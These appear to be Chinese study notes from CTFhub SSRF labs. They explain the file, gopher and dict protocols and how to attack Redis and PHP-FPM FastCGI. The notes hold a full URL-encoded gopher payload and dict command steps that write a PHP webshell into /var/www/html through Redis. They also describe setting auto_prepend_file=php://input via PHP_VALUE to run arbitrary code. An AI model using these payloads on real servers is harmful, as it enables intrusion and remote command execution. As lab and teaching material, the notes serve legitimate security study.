   file协议主要用于访问本地计算机中的文件，命令格式为：

   ```
   file://文件绝对路径
   ```

   

2. Gopher协议

   https://github.com/tarunkant/Gopherus

   [Gopher协议_0ak1ey的博客-CSDN博客](https://blog.csdn.net/qq_43665434/article/details/115255263)

   ```
   URL:gopher://<host>:<port>/<gopher-path>_后接TCP数据流
   
   gopher的默认端口是70
   如果发起post请求，回车换行需要使用%0d%0a，如果多个参数，参数之间的&也需要进行URL编码
   ```

3. dict协议

   词典网络协议

   [SSRF漏洞中使用到的其他协议_0ak1ey的博客-CSDN博客](https://blog.csdn.net/qq_43665434/article/details/115434528)

   ```
   dict://ip:port/后接TCP/IP数据量
   
   向服务器的端口请求为【命令:参数】，并在末尾自动补上\r\n(CRLF)，为漏洞利用增加了便利
   dict协议执行命令要一条一条执行
   ```

### SSRF打redis

<u>*CTFhub --- web-ssrf-redis*</u>

#### Gopher


```c
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0Agopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2434%0D%0A%0A%0A%3C%3Fphp%20system%28%24_GET%5B%27cmd%27%5D%29%3B%20%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

payload需要再进行一次url编码


#### dict


>```
>str="<?php system($_GET[\"a\"])?>";
>len=str.length;
>arr=[];
>for(var i=0;i<len;i++){
>	arr.push(str.charCodeAt(i).toString(16));
>}
>console.log("\\x"+arr.join("\\x"));
>```

```c
更改rdb文件的目录至网站目录下
url=dict://127.0.0.1:6379/config:set:dir:/var/www/html

将rdb文件名dbfilename改为webshell的名字
url=dict://127.0.0.1:6379/config:set:dbfilename:webshell.php

写入webshell，有些时候可能\x需要换成 \\x进行转义
url=dict://127.0.0.1:6379/set:webshell:"\x3c\x3f\x70\x68\x70\x20\x73\x79\x73\x74\x65\x6d\x28\x24\x5f\x47\x45\x54\x5b\x22\x63\x6d\x64\x22\x5d\x29\x3f\x3e"

进行备份
dict://127.0.0.1:6379/save更改rdb文件的目录至网站目录下
url=dict://127.0.0.1:6379/config:set:dir:/var/www/html
```


### SSRF打FastCGI

>`auto_prepend_file`是告诉PHP，在执行目标文件之前，先包含`auto_prepend_file`中指定的文件；`auto_append_file`是告诉PHP，在执行完成目标文件后，包含`auto_append_file`指向的文件。

<u>*CTFhub --- web-ssrf-FastCGI*</u>

[NCTF2019\]phar matches everything（自动化脚本获取flag）_buuctf phar_Ho1aAs的博客-CSDN博客](https://blog.csdn.net/Xxy605/article/details/120161001)

[fastCGI](https://www.cnblogs.com/tssc/p/10255590.html)

[Fastcgi协议分析 && PHP-FPM未授权访问漏洞 && Exp编写_mysteryflower的博客-CSDN博客](https://blog.csdn.net/mysteryflower/article/details/94386461)

[ fastcgi协议分析与实例_Shreck66的博客-CSDN博客](https://blog.csdn.net/shreck66/article/details/50355729)

[利用SSRF攻击内网FastCGI协议 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/web/263342.html)


https://blog.csdn.net/mysteryflower/article/details/94386461

Fastcgi其实是一个通信协议，和HTTP协议一样，都是进行数据交换的一个通道。

类比HTTP协议来说，fastcgi协议则是服务器中间件和某个语言后端进行数据交换的协议。Fastcgi协议由多个record组成，record也有header和body一说，服务器中间件将这二者按照fastcgi的规则封装好发送给语言后端，语言后端解码以后拿到具体数据，进行指定操作，并将结果再按照该协议封装好后返回给服务器中间件。

#### 消息头(请求头)

和HTTP头不同，record的头固定8个字节，body是由头中的contentLength指定，其结构如下：

```c
typedef struct {
    /* Header */
    unsigned char version; // 版本
    unsigned char type; // 本次record的类型
    unsigned char requestIdB1; // 本次record对应的请求id
    unsigned char requestIdB0;
    unsigned char contentLengthB1; // body体的大小
    unsigned char contentLengthB0;
    unsigned char paddingLength; // 额外块大小
    unsigned char reserved; 

    /* Body */
    unsigned char contentData[contentLength];
    unsigned char paddingData[paddingLength];
} FCGI_Record;
```

头由8个uchar类型的变量组成，每个变量1字节。其中，requestId占两个字节，一个唯一的标志id，以避免多个请求之间的影响；contentLength占两个字节，表示body的大小。

语言端解析了fastcgi头以后，拿到contentLength，然后再在TCP流里读取大小等于contentLength的数据，这就是body体。

Body后面还有一段额外的数据（Padding），其长度由头中的paddingLength指定，起保留作用。不需要该Padding的时候，将其长度设置为0即可。

可见，一个fastcgi record结构最大支持的body大小是2^16，也就是65536字节。

type就是指定该record的作用。因为fastcgi一个record的大小是有限的，作用也是单一的，所以我们需要在一个TCP流里传输多个record。通过type来标志每个record的作用，用requestId作为同一次请求的id。

也就是说，每次请求，会有多个record，他们的requestId是相同的。

借用[该文章](https://blog.csdn.net/shreck66/article/details/50355729)中的一个表格，列出最主要的几种type：


下图为php-fpm给web服务器传输的一个具体消息的消息头(8字节)内容

1. 序列0(对应version字段)的数值为01，代表php-fpm的版本信息
2. 序列1(对应type字段)的数值为03，根据上面对type值含义的解释，可以知道这个消息将标志这此次交互的结束
3. 序列2,3 00,01说明此次交互的请求ID为01
4. 序列4,5 00,08标示这在序列7之后的消息体的长度为8
5. 序列6标示填充字节为0，及本身消息体以是8的字节了
6. 序列7将消息的保留字节设为0

#### 消息体(请求体)

##### type为1

读者对照上面介绍的type值的含义可知，此类消息为交互刚开始所发的第一个消息，其消息体结构c定义如下

```c
typedef struct 
{
    unsigned char roleB1;       //web服务器所期望php-fpm扮演的角色，具体取值下面有
    unsigned char roleB0;
    unsigned char flags;        //确定php-fpm处理完一次请求之后是否关闭
    unsigned char reserved[5];  //保留字段
}FCGI_BeginRequestBody;
```

根据上述可知type值为1的消息(标识开始请求)的消息的消息体为固定大小8字节，其中各个字段的具体含义如下

- role:此字段占2个字节，用来说明我们对php-fpm发起请求时，我们想让php-fpm为我们扮演什么角色(做什么，或理解为杂么做)，其常见的3个取值如下:
- flags:字段确定是否与php-fpm建立长连接，为1长连接，为0则在每次请求处理结束之后关闭连接
- reserved:保留字段

##### type为3

type值为3表示结束消息，其消息体的c定义如下

```c
typedef struct 
{
    unsigned char appStatusB3;      //结束状态，0为正常
    unsigned char appStatusB2;
    unsigned char appStatusB1;
    unsigned char appStatusB0;
    unsigned char protocolStatus;   //协议状态
    unsigned char reserved[3];
}FCGI_EndRequestBody;
```

同样我们可以看出结束消息体也为固定8字节大小，其各字段的具体含义如下：

- appStatus:此字段共4个字节，用来表示结束状态，0为正常结束
- protocolStatus:为协议所处的状态，0为正常状态
- reserved:为保留字节

##### type为4

此值表示此消息体为传递PARAMS(环境参数)，环境参数其实就是name-value对，我们可以使用自己定义的name-value传给php-fpm或者传递php-fpm已有的name-value对，以下为我们后面实例将会使用到的php-fpm以有的name-value对如下


消息体的格式如下

```c
typedef struct {
     unsigned char nameLengthB3; /* nameLengthB0 >> 7 == 0 */
     unsigned char nameLengthB2;
     unsigned char nameLengthB1;
     unsigned char nameLengthB0;
     unsigned char valueLengthB3; /* nameLengthB0 >> 7 == 0 */
     unsigned char valueLengthB2;
     unsigned char valueLengthB1;
     unsigned char valueLengthB0;
     unsigned char nameData[(B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
     unsigned char valueData[valueLength
     ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValue;
```

以看出消息体前8个字节为固定的，其字段具体含义为

- nameLength:此字段占用4字节，用来说明name的长度
- valueLength:此字段为4个字节，用来说明value的长度

前8个字节之后紧跟的为nameLength长度的name值，接着是valueLength长度的value值

```c
typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair11;
 
typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair14;
 
typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair41;
 
typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair44;
```

这其实是4个结构，至于用哪个结构，有如下规则：

1. key、value均小于128字节，用FCGI_NameValuePair11
2. key大于128字节，value小于128字节，用FCGI_NameValuePair41
3. key小于128字节，value大于128字节，用FCGI_NameValuePair14
4. key、value均大于128字节，用FCGI_NameValuePair44

##### type值为5,6,7

当消息为输入，输出，错误时，它的消息头之后便直接跟具体数据

#### 完整消息record


#### PHP-FPM（FastCGI进程管理器）

FPM其实是一个fastcgi协议解析器，Nginx等服务器中间件将用户请求按照fastcgi的规则打包好通过TCP传给谁？其实就是传给FPM。

FPM按照fastcgi的协议将TCP流解析成真正的数据。

举个例子，用户访问http://127.0.0.1/index.php?a=1&b=2，如果web目录是/var/www/html，那么Nginx会将这个请求变成如下key-value对：

```c
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

这个数组其实就是PHP中$\_SERVER数组的一部分，也就是PHP里的环境变量。但环境变量的作用不仅是填充$\_SERVER数组，也是告诉fpm：“我要执行哪个PHP文件”。

PHP-FPM拿到fastcgi的数据包后，进行解析，得到上述这些环境变量。然后，执行SCRIPT_FILENAME的值指向的PHP文件，也就是/var/www/html/index.php。

#### 任意代码执行

那么，为什么我们控制fastcgi协议通信的内容，就能执行任意PHP代码呢？

理论上当然是不可以的，即使我们能控制`SCRIPT_FILENAME`，让fpm执行任意文件，也只是执行目标服务器上的文件，并不能执行我们需要其执行的文件。

但PHP是一门强大的语言，PHP.INI中有两个有趣的配置项，`auto_prepend_file`和`auto_append_file`。

`auto_prepend_file`是告诉PHP，在执行目标文件之前，先包含`auto_prepend_file`中指定的文件；`auto_append_file`是告诉PHP，在执行完成目标文件后，包含`auto_append_file`指向的文件。

那么就有趣了，假设我们设置`auto_prepend_file`为`php://input`，那么就等于在执行任何php文件前都要包含一遍POST的内容。所以，我们只需要把待执行的代码放在Body中，他们就能被执行了。（当然，还需要开启远程文件包含选项`allow_url_include`）

那么，我们怎么设置`auto_prepend_file`的值？

这又涉及到PHP-FPM的两个环境变量，`PHP_VALUE`和`PHP_ADMIN_VALUE`。这两个环境变量就是用来设置PHP配置项的，`PHP_VALUE`可以设置模式为`PHP_INI_USER`和`PHP_INI_ALL`的选项，`PHP_ADMIN_VALUE`可以设置所有选项。（`disable_functions`除外，这个选项是PHP加载的时候就确定了，在范围内的函数直接不会被加载到PHP上下文中）

```
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

设置`auto_prepend_file = php://input`且`allow_url_include = On`，然后将我们需要执行的代码放在Body中，即可执行任意代码。


